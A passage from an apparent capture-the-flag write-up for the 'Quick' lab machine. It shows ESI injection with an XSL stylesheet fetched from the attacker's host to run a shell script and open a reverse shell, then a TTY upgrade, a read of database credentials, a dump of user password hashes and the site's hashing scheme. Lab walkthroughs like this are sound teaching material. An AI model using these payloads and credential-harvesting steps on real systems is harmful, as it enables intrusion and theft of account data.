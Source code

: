 Now, take note of the ticket number, and visit it at http://quick.htb:9001/search.php?search=TKT-xxxx

We get a two pings back to our webserver, one for exploitdown.xsl and one for shell.sh

We now need to do the same with exploitexec.xsl:

```
<esi:include src="index.php" stylesheet="http://10.10.xx.xx/exploitexec.xsl">
</esi:include>
```

Now, open a listener on the port you chose, and visit http://quick.htb:9001/search.php?search=TKT-xxxx

We'll import TTY and see who we are:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'

sam@quick:~$ whoami
sam
```

We can look at the db.php file in /var/www/html:

```
<?php
$conn = new mysqli("localhost","db_adm","db_p4ss","quick");
?>
```

Looks like we have mysql credentials!

```
mysql -udb_adm -pdb_p4ss
use quick;
select * from users;

+--------------+------------------+----------------------------------+
| name         | email            | password                         |
+--------------+------------------+----------------------------------+
| Elisa        | elisa@wink.co.uk | c6c35ae1f3cb19438e0199cfa72a9d9d |
| Server Admin | srvadm@quick.htb | e626d51f8fbfd1124fdea88396c35d05 |
+--------------+------------------+----------------------------------+
```

Looks like we have some hashed passwords! They're MD5 strings, but they aren't crackable in their current form. Let's see if we can figure out how they're being hashed:

```
cat /var/www/html/login.php

...
        $email=$_POST["email"];                  
        $password = $_POST["password"];                                                                              
        $password = md5(crypt($password,'fa'));          
...
```
